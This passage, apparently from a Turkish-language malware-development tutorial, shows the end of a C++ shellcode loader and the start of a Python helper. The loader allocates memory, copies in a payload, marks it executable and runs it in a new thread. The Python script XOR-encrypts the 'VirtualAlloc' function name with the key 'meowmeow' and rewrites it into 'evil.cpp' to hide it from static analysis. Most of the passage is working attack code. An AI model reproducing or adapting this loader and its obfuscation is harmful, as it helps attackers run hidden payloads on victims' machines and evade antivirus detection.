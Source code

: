 ```cpp
  GetModuleHandle("kernel32.dll"), cVirtualAlloc);

  my_payload_mem = pVirtualAlloc(0, my_payload_len, 
  MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

  // copy payload to buffer
  RtlMoveMemory(my_payload_mem, my_payload, 
  my_payload_len);

  // make new buffer as executable
  rv = VirtualProtect(my_payload_mem, my_payload_len, 
  PAGE_EXECUTE_READ, &oldprotect);
  if ( rv != 0 ) {

    // run payload
    th = CreateThread(0, 0, 
    (LPTHREAD_START_ROUTINE) my_payload_mem, 
    0, 0, 0);
	WaitForSingleObject(th, -1);
  }
  return 0;
}

```

Ve fonksiyon adımızı XOR ile şifrelemek ve yerine koymak için Python scripti kullanın:    

```python
import sys
import os
import hashlib
import string

## XOR function to encrypt data
def xor(data, key):
    key = str(key)
    l = len(key)
    output_str = ""

    for i in range(len(data)):
        current = data[i]
        current_key = key[i % len(key)]
        ordd = lambda x: x if isinstance(x, int) else ord(x)
        output_str += chr(ordd(current) ^ ord(current_key))
    return output_str

## encrypting
def xor_encrypt(data, key):
    ciphertext = xor(data, key)
    ciphertext = '{ 0x' + ', 0x'.
    join(hex(ord(x))[2:] for x in ciphertext) + ' };'
    print (ciphertext)
    return ciphertext, key

## key for encrypt/decrypt
plaintext = "VirtualAlloc"
my_secret_key = "meowmeow"

## encrypt VirtualAlloc
ciphertext, p_key = xor_encrypt(plaintext, my_secret_key)

## open and replace our payload in C++ code
tmp = open("evil.cpp", "rt")
data = tmp.read()
```